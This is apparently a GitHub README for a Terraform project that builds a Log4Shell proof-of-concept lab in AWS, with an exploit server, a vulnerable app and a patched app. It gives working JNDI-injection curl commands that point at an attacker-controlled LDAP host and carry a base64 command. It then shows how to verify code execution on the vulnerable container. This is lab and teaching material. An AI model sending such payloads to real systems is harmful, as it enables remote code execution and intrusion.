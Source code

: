 # terraform-log4shell

Log4Shell POC Using Terraform

# About

This terraform creates three instances on a VPC in AWS Cloud:

- [jndiexploit](https://github.com/feihong-cs/JNDIExploit)
- [log4shellapp](https://github.com/christophetd/log4shell-vulnerable-app)
- [fixedapp](https://github.com/christophetd/log4shell-vulnerable-app)

Please ensure that you have configured aws cli with your Access key ID and Secret access key.
In order to ssh into the ec2 instances, please update ssh public key in terraform before running terraform apply

```bash
terraform init
terraform plan
terraform apply --auto-approve
```

# Exploitation (Remote Code Execution) Steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk**._

- Trigger the exploit using:

```bash
curl ${log4shellapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

curl ${fixedapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

- To confirm that the code execution was successful on log4shellapp, notice that the file `/tmp/pwned` was created in log4shellapp's container: ssh into log4shellapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti log4shellapp ls /tmp
...
pwned
...
```

- To confirm that the code execution was unsuccessful on fixedapp, notice that NO file `/tmp/pwned` was created in fixedapp's container: ssh into fixedapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti fixedapp ls /tmp
...
...
```

## Reference

- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://bigb0ss.medium.com/appsec-log4shell-cve-2021-44228-606f91e56866
- https://chasersystems.com/blog/log4shell-and-its-traces-in-a-network-egress-filter/
